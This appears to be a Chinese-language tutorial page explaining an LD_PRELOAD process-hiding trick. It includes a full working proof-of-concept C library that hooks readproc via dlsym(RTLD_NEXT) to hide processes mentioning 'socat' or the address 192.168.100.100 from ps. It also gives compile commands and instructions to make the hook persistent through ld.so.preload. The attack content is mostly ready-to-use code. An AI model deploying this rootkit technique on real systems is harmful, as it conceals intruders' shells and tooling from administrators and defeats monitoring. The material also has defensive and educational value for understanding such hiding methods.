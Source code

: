 ### dlsym

```c
    typeof(readproc) *old_readproc = dlsym(RTLD_NEXT, "readproc");
```

* 這行是 `LD_PRELOAD` 技巧的關鍵，我們用 `dlsym` 這個函式來找 symbol 的位址
* 放 `RTLD_NEXT` 這個參數會找下一個 symbol 而不是第一個
* `typeof(readproc)` 只是一個語法糖，代表 `readproc` 這個 function pointer 的型態

### POC 原始碼

```c hook.c
#define _GNU_SOURCE
#include <dlfcn.h>
#include <string.h>
#include <proc/readproc.h>

int hidden (char *target) {
    char *keywords[2] = { "192.168.100.100", "socat" };
    for (int i = 0; i < 2; i++) if (strstr(target, keywords[i])) return 1;
    return 0;
}

proc_t* readproc (PROCTAB *PT, proc_t *return_buf) {
    typeof(readproc) *old_readproc = dlsym(RTLD_NEXT, "readproc");
    proc_t* ret_value = old_readproc(PT, return_buf);
    while (ret_value
        && ret_value->cmdline
        && hidden(ret_value->cmdline[0])) {
        ret_value = old_readproc(PT, return_buf);
    }
    return ret_value;
}
```

### 編譯

```bash
gcc -fPIC -shared -o hook.so hook.c
```

### 執行

* 指定 `LD_PRELOAD` 環境變數來載入編譯好的動態連結庫，但只有該次生效

```bash
LD_PRELOAD=/path/to/hook.so ps aux
```

* 或是編輯 `ld.so.preload`，寫入 `hook.so` 的路徑，之後每次執行都會載入，可以用 `ldd` 查看是否成功 preload

### DEMO

<script id="asciicast-0M5KQUVkrY4Ha0gOOSS9pj97K" src="https://asciinema.org/a/0M5KQUVkrY4Ha0gOOSS9pj97K.js" async></script>
